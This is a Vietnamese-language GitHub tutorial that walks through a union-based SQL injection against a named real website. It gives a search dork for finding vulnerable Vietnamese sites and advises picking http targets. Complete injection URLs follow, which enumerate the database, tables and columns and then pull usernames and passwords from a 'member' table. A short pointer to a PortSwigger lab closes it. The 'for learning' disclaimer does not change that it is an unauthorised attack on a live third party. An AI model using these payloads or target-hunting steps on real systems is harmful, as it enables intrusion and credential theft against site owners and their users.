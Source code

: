 # Hướng dẫn tấn công SQLi trên Web thật!                                                     
By: Nguyễn Hữu Nghi
***

** Lưu ý: Bài Demo này là tấn công dựa trên web thật do mình tìm được, với mục đích học tập. Các bạn có thể làm theo nhưng vui lòng đừng thực hiện các tấn công nguy hiểm nhầm phá hoại trang web. Xin cảm ơn! **

## Bước 1:
Tìm kiếm đối tượng tấn công sử dụng lệnh: ```inurl product.php id= site vn``` thông qua các trình duyệt web thông dụng như Chrome, Edge, Cốc Cốc,....
## Bước 2:
Sau khi tìm được đối tượng tấn công.
Mình khuyên các bạn nên tìm các trang web có địa chỉ bắt đầu bằng `http` thay vì`https` thì tấn công sẽ dễ thành công hơn.
<br>
Ví dụ:
![image](https://github.com/user-attachments/assets/a7f45723-3797-426a-a32f-c7ff238794c4)
</br>
** Lưu ý: không phải trang web nào các bạn cũng thực hiện tấn công thành công được, nên đừng quá chán nản. Hãy tập trung tìm điểm yếu hoặc trang wed khác! **

## Bước 3:
Mình sẽ lấy trang web mình tìm được:
http://www.igoergo.com/_site/products.php?cat=02
- Xác định số cột <br></br>
```order by 1-- -``` nếu web vẫn bình thường hãy thử lại với số cao hơn! <br>
```order by 3-- -``` web sẽ xảy ra lỗi => Điều này có nghĩa số cột cần tìm > 1 và < 2.<br>
```order by 2-- -``` web vẫn bình thường => số cột của web này là 2.<br>
Trông nó sẽ như này: ```http://www.igoergo.com/_site/products.php?cat=02%20order%20by%202--%20-``` %20 chỉ tượng trưng cho dấu cách các bạn không cần phải lo!
- Xác định cột bị lỗi để có thể chèn code của mình vào <br></br>
Sử dụng lệnh: ```union select 1,2-- -```    
** Lưu ý: bước trên các bạn tìm được bao nhiêu cột thì bắt buộc phải gõ đủ bấy nhiêu cột.  VD: union select 1,2,3,4,5-- - <br></br>
Để lệnh chạy đc thì các bạn thêm `-` trước giá trị của `cat`. ( hoặc `id` nếu các bạn tấn công web khác mình)<br></br>
Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%201,2--%20-```<br></br>
Kết quả: <br>
![image](https://github.com/user-attachments/assets/558bdd0d-fcd4-4178-9870-b9a1ecd0b54e)  </br> 
=> Điều này có nghĩa là bạn có thể chèn code vô cột 1.
**Nếu bạn nghĩ mình đã gõ đúng mà Web vẫn báo lỗi hãy kiểm tra lại từng chữ mà bạn gõ!!!**
## Bước 4:
Thực hiện chèn code bằng các lệnh: <br>
```user()``` => coi user của web <br>
```database()``` => coi thông tin về database <br>
```version()``` => coi version của database <br>
Trông như thế này: <br>
```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20user(),2--%20-```
</br>
### Bước 4.1:
- Tìm tên các tables trong database: <br>
``` union select group_concat(table_name),2 from information_schema.tables where table_schema= database();-- -``` <br>
- Trông sẽ như này: <br>```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema=%20database();--%20-```</br>
### Bước 4.2:
- Tìm tên các cột trong 1 table cụ thể.<br>
**Thường lấy các cột trong table về chủ sở hữu web vì nó chứa các thông tin quan trọng** <br>
- Ở đây mình lấy table `member` để tấn công. <br> 
Nhưng trước tiên mình cần đổi member thành hệ thập lục phân Hex.
Link đổi sang Hex: https://www.hexator.com/ <br>
```member``` đổi sang Hex sẽ là ```6d656d626572``` <br>
- Sử dụng lệnh: ```union select group_concat(column_name),2 from information_schema.columns where table_name= 0x6d656d626572-- -``` <br>
**Lưu ý: chổ table_name thêm `0x` rồi sau đó là hex của member là `6d656d626572` <br>
- Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=%200x6d656d626572--%20-``` <br>
### Bước 4.3:
- Xem nội dung trong các cột: <br>
  Sử dụng lệnh: ```union select group_concat(id,username,password),2 from member-- -``` tuy nhiên kết quả trả về sẽ bị gộp rất khó coi.<br>
  Chèn dấu `/` để dễ nhìn => `2f` => ```union select group_concat(id,0x2f,username,0x2f,password),2 from member-- -```
- Trông nó sẽ như thế này:```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(id,0x2f,username,0x2f,password),2%20from%20member--%20-```
### Chúc mừng bạn đã tấn công thành công!!!
<br>
<br>
<br>

***
# Lab 2: Blind SQLi

- Link to lab```https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses```
- Link tải Burp Suite```https://portswigger.net/burp/communitydownload```











